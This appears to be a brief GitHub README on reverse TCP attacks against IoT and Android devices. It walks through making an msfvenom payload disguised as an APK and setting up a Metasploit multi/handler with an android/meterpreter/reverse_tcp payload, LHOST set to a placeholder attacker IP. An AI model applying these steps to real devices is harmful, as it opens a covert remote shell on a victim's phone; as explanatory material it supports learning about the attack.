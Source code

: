 # Reverse-TCP-Vulnerability

IoT devices are vulnerable to reverse TCP attacks.

The reverse TCP attack is a type of attack where the victim machine initiates the connection to the attacker machine. 
The attacker machine has a listener port on which it receives the connection, which it can use to execute the commands.

![Reversetcp](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/37464f86-906d-42cc-91b5-67784b5512cc)


The attacker creates a payload written using a bash shell script. This shell script carries the process payload in different forms. 
For example, in the case of Android devices, the shell script payload can be carried in the form of an Android apk.

msfvenom can be used to create payloads.

![msfvenom](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/78456489-0775-4a95-91db-e4d886252dbf)

once the payload is created, Attacker move this payload into target device. In thase case of android based devices, attaker create payload 
in the form of Android apk and install this apk in the target device.

Open the Metasploit console in the kali Linux terminal by typing "msfconsole."
After the Metasploit console opens, then type the command "use multi/handler"
Next set the payload by typing "set payload android/meterpreter/reverse_tcp"

Metasploit console in the kali linux used as a connection entry point between the attacker and the victim.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/966f41e8-3c55-4867-9ec4-d4228b9a255f)

Set LHOST <attackipaddress> this is the IP address used as a host.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/6a4a41b8-10c9-4395-9c07-96a8702dfa84)

Set LPORT <PORT attacker> this is the PORT used as a connection entry point between the attacker and the victim.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/a3702304-7407-4a7f-a1fd-1d2cc66c4554)

Exploit is a command to start an exploit between the attacker and the victim's device that has been previously
connected.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/7b0409cb-699e-4668-bfe1-80b0cd08968d)

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/f6f46734-08a0-45bb-83e6-7263c70c78ed)

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/f4dd9373-e027-4ba1-8dee-168951dd937e)

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/59bc4f13-7c32-4867-b56b-ee5a7e69f7d4)







